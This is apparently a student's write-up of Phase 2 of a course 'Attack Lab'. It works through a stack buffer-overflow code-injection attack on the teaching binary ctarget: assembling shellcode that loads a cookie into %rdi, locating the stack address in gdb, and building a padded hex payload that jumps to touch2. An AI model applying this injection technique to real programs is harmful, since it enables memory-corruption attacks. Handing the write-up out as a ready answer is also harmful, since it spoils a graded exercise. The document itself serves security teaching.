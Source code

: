 # Phase2:

As mentioned in the Attack Lab pdf, we are wanting to modify the rdi register and store our cookie in there. We also need to call touch2.

In order to modify the rdi register and store the cookie within that register, we would want to do the following:

```
movq $0x76ebdb56,%rdi /* Moving cookie to rdi register*/
retq /*return*/
```
In order to find what the byte representation of this code, we will want to save it to a file (I named mine phase2.s) and then compile and do an obj dump:
```
gcc -c phase2.s
objdump -d phase2.o > phase2.d
```
This is what I got:
```
phase2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 56 db eb 76 	mov    $0x76ebdb56,%rdi
   7:	c3                   	ret 
```  
Now we got the first line of our file. We will want to fill the next few lines with our padding to make it = to the buffer value (56 bytes). 

Next, we need to find the address of $rsp. I did this by launching ctarget in gdb and stepping through the code.
```
gdb ctarget
break getbuf
run
```
and you get something like this:
```
Breakpoint 1, getbuf () at buf.c:12
12      buf.c: No such file or directory.
(gdb) disas
Dump of assembler code for function getbuf:
=> 0x0000000000402601 <+0>:     sub    $0x38,%rsp
   0x0000000000402605 <+4>:     mov    %rsp,%rdi
   0x0000000000402608 <+7>:     call   0x4028a2 <Gets>
   0x000000000040260d <+12>:    mov    $0x1,%eax
   0x0000000000402612 <+17>:    add    $0x38,%rsp
   0x0000000000402616 <+21>:    ret    
End of assembler dump.
```
You will need to run the program until after the call `0x4028a2 <Gets> ` 
```
(gdb) until *0x40260d
```
I typed a string longer than the buffer (56 bytes):
```
Type string:ldsjfsdkfjdslfkjsdlkfjsdlkfjsldkfjsldkjf
getbuf () at buf.c:15
15      in buf.c
```
Now, we can see where $rsp is:
```
(gdb) x/s $rsp
0x5561a060:     "ldsjfsdkfjdslfkjsdlkfjsdlkfjsldkfjsldkjf"
```
We found the address of $rsp which is 0x5561a060.

Lastly we need the address of touch2 using the objdump file of ctarget:
```
0000000000402647 <touch2>:
  402647:	50                   	push   %rax
  402648:	58                   	pop    %rax
  402649:	48 83 ec 08          	sub    $0x8,%rsp
  40264d:	89 fa                	mov    %edi,%edx
  40264f:	c7 05 e3 21 11 00 02 	movl   $0x2,0x1121e3(%rip)        # 51483c <vlevel>
  402656:	00 00 00 
  402659:	39 3d e5 21 11 00    	cmp    %edi,0x1121e5(%rip)        # 514844 <cookie>
  40265f:	74 2a                	je     40268b <touch2+0x44>
  402661:	48 8d 35 60 9c 0d 00 	lea    0xd9c60(%rip),%rsi        # 4dc2c8 <_IO_stdin_used+0x2c8>
  402668:	bf 01 00 00 00       	mov    $0x1,%edi
  40266d:	b8 00 00 00 00       	mov    $0x0,%eax
  402672:	e8 19 45 05 00       	call   456b90 <___printf_chk>
  402677:	bf 02 00 00 00       	mov    $0x2,%edi
  40267c:	e8 95 05 00 00       	call   402c16 <fail>
  402681:	bf 00 00 00 00       	mov    $0x0,%edi
  402686:	e8 35 ac 00 00       	call   40d2c0 <exit>
  40268b:	48 8d 35 0e 9c 0d 00 	lea    0xd9c0e(%rip),%rsi        # 4dc2a0 <_IO_stdin_used+0x2a0>
  402692:	bf 01 00 00 00       	mov    $0x1,%edi
  402697:	b8 00 00 00 00       	mov    $0x0,%eax
  40269c:	e8 ef 44 05 00       	call   456b90 <___printf_chk>
  4026a1:	bf 02 00 00 00       	mov    $0x2,%edi
  4026a6:	e8 71 04 00 00       	call   402b1c <validate>
  4026ab:	eb d4                	jmp    402681 <touch2+0x3a>
```
Touch2 address: 0000000000402647
   
Now, lets put it all together!
```
48 c7 c7 56 db eb 76 c3 /*Setting cookie into rdi*/
00 00 00 00 00 00 00 00 /*Padding, need 48bytes to make 56*/
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
60 a0 61 55 00 00 00 00 /*Address of $rsp*/
47 26 40 00 00 00 00 00 /*Address of touch2*/
```
generate raw exploit:
```
./hex2raw < ctarget.l2.txt > exploit2.dat
```
run the file:
```
./ctarget < exploit2.dat
```
Finished!